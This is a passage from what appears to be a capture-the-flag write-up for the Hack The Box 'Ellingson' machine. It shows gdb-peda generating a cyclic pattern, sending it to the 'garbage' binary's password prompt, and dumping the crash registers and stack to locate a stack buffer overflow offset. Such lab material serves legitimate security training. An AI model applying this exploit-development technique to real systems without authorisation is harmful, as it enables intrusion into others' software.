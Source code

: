 

    gdb-peda$ pattern_create 400
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'



Now, I'll run the program (`r`), and enter that pattern when it asks me
for the password:



    gdb-peda$ r
    Starting program: /media/sf_CTFs/hackthebox/ellingson-10.10.10.139/garbage
    Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$
    A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y



The program crashes:



    [----------------------------------registers-----------------------------------]
    RAX: 0x0
    RBX: 0x0
    RCX: 0x7ffff7ec5804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f988c0 --> 0x0
    RSI: 0x4059c0 ("access denied.\nssword: ")
    RDI: 0x0
    RBP: 0x6c41415041416b41 ('AkAAPAAl')
    RSP: 0x7fffffffdf68 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)         
    RIP: 0x401618 (<auth+261>:      ret)
    R8 : 0x7ffff7f9d500 (0x00007ffff7f9d500)
    R9 : 0x7ffff7f97848 --> 0x7ffff7f97760 --> 0xfbad2a84
    R10: 0xfffffffffffff638
    R11: 0x246
    R12: 0x401170 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe060 ("vA%YA%wA%ZA%xA%y")
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x40160d <auth+250>: call   0x401050 <puts@plt>
       0x401612 <auth+255>: mov    eax,0x0
       0x401617 <auth+260>: leave  
    => 0x401618 <auth+261>: ret    
       0x401619 <main>:     push   rbp
       0x40161a <main+1>:   mov    rbp,rsp
       0x40161d <main+4>:   sub    rsp,0x10
       0x401621 <main+8>:   mov    eax,0x0
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdf68 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)        
    0008| 0x7fffffffdf70 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)        
    0016| 0x7fffffffdf78 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%S"...)        